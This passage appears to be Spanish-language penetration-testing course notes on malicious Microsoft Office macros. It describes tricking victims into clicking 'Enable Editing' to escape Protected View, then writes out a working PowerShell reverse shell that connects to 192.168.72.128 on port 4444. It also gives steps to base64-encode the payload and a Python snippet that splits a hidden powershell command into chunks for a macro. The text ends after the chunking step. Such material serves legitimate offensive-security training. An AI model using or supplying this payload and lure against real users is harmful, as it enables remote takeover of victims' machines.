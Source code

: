 - Si logramos entregar con éxito el documento de Office a nuestro objetivo por correo electrónico o enlace de descarga, el archivo se etiquetará con la _Mark of the Web_ (MOTW). Los documentos de Office etiquetados con MOTW se abrirán en _Vista protegida_, que deshabilita todas las configuraciones de edición y modificación en el documento y bloquea la ejecución de macros u objetos incrustados. Cuando la víctima abre el documento con la etiqueta MOTW, Office mostrará una advertencia con la opción Habilitar _edición_. Cuando la víctima habilita la edición, la vista protegida se desactiva. Por lo tanto, la forma más básica de superar esta limitación es convencer al objetivo de que haga clic en el botón _Habilitar edición_ , por ejemplo, desenfocando el resto del documento e indicándole que haga clic en el botón para "desbloquearlo".

- Finalmente, debemos considerar el anuncio de Microsoft que habla sobre el bloqueo de macros por defecto.

Antes de pasar a la siguiente sección, alejemos el zoom aquí por un momento. Incluso después de agregar todas estas mitigaciones y crear conciencia general, las macros maliciosas de Microsoft Office siguen siendo uno de los ataques del lado del cliente más utilizados. Este ejemplo revela una dinámica subyacente entre defensores y atacantes. Por cada tecnología o componente de seguridad implementado, los atacantes se ven obligados a idear nuevos vectores de ataque y desvíos. Esto conduce a una espiral, en la que ambas partes deben idear constantemente enfoques más sofisticados a lo largo del tiempo para tener éxito. Nosotros, como probadores de penetración, por lo tanto, nunca debemos desanimarnos por los nuevos mecanismos defensivos, sino tratarlos como oportunidades para crear ataques más sofisticados.

<br />

#### 2.2. Leveraging Microsoft Word Macros.

Tanto Microsoft Word como Excel permiten los *Macros* embebidos, los cuales son básicamente scripts incluidos en documentos ejecutados por el engine de Word dedicados a tareas de manejo de contenido dinámico y links externos. 

Podemos aprovecharnos de los macros para ejecutar un reverse shell una vez el documento se abre. Este sigue siendo un vector de ataque bastante utilizado teniendo en cuenta las consideraciones descritas más arriba.

Un ejemplo de un documento Macro que ejecuta una reverse shell en powershell podría ser el siguiente:

1. En primer lugar, generamos la reverse shell y la ciframos con base64:

```powershell
$TEXTO = '$client = New-Object System.Net.Sockets.TCPClient("192.168.72.128",4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$ENCODED1 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($TEXTO))
Write-Output $ENCODED1
```

2. Seguidamente, utilizamos el sigueinte código en python para cortar la cadena en trozos asequibles:

```python
str = "powershell.exe -nop -w hidden -e <encryptedpayload>"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
